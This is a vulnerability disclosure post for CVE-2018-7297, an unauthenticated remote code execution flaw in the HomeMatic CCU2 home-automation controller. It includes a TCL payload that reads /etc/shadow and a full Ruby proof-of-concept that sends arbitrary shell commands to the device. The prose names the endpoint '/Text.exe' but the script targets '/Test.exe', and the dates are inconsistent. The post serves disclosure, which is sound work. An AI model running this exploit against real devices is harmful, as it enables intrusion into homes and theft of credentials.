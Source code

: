 ```yaml
---
layout: post
title: "CVE-2018-7297: Remote Code Execution in HomeMatic CCU2"
date:   2018-02-21 17:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Background

HomeMatic is a home automation system consisting of various components for automating several parts of a building, including different sensors and actuators. The HomeMatic CCU2 is a central control unit, which is responsible for integrating these components with each other.

From the vendor's website ([eQ-3](http://www.eq-3.de/produkte/homematic/zentralen-und-gateways.html)):

"The Homematic Central Control Unit CCU2 is responsible for numerous control, signalling and supervision functions across all areas of the Homematic system. The device includes a browser based user interface to the up the system. It can be controlled in the local network as well as via Internet. The Homematic software offers various configuration and application possibilities, so that there are no limits to creativity for installing your individual smart home."


# Issue Description

While analyzing the implementation of the CCU2's web interface, a remote code execution vulnerability has been identified, which can be exploited in order to read and write arbitrary files to the CCU2's filesystem. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.

The TCL script interpreter is not secured by any session handling and executes all TCL scripts sent via POST requests to `/Text.exe` on port 80 or 8181 of the system.

TCL script example:

```
string stdout;
string stderr;
system.Exec("cat /etc/shadow", &stdout, &stderr);
WriteLine(stdout);
```

# Proof-of-Concept

~~~ ruby
#!/usr/bin/ruby

# Exploit Title: Homematic CCU2 Remote Command Execution
# Date: 28-03-18
# Exploit Author: Patrick Muench (SVA System Vertrieb Alexander GmbH), Gregor Kopf (Secfault Security GmbH)
# Vendor Homepage: http://www.eq-3.de
# Software Link: http://www.eq-3.de/service/downloads.html?id=268
# Version: 2.29.23
# CVE : 2018-7297

# Description: http://atomic111.github.io/article/homematic-ccu2-remote-code-execution

require 'net/http'
require 'net/https'
require 'uri'

unless ARGV.length == 2
  STDOUT.puts <<-EOF
Please provide url and the command, which is execute on the homematic

Usage:
  execute_cmd.rb <ip.adress> <homematic command>

Example:
  execute_cmd.rb https://192.168.1.1 "cat /etc/shadow"

  or

  execute_cmd.rb http://192.168.1.1 "cat /etc/shadow"

EOF
  exit
end

# The first argument specifies the URL and if http or https is used
url = ARGV[0] + "/Test.exe"

# The second argument specifies the command which is executed via tcl interpreter
tcl_command = ARGV[1]

# define body content
body = "string stdout;string stderr;system.Exec(\"" << tcl_command << "\", &stdout, &stderr);WriteLine(stdout);"

# split uri to access it in a easier way
uri = URI.parse(url)

# define target connection, disabling certificate verification
Net::HTTP.start(uri.host, uri.port, :use_ssl => uri.scheme == 'https', :verify_mode => OpenSSL::SSL::VERIFY_NONE) do |http|

  # define post request
  request = Net::HTTP::Post.new(uri.request_uri)

  # define the request body
  request.body = body

  # send the request to the homematic ccu2
  response = http.request(request)

  # print response to cli
  puts response.body
end
~~~

# CVE

[CVE-2018-7297](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7297)

# CVSSv3 Base Score

CVSS Base Score: __9.4__

CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L

# Credit

Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Gregor Kopf of [Secfault Security GmbH](https://secfault-security.com)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2017 Secfault Security GmbH & SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
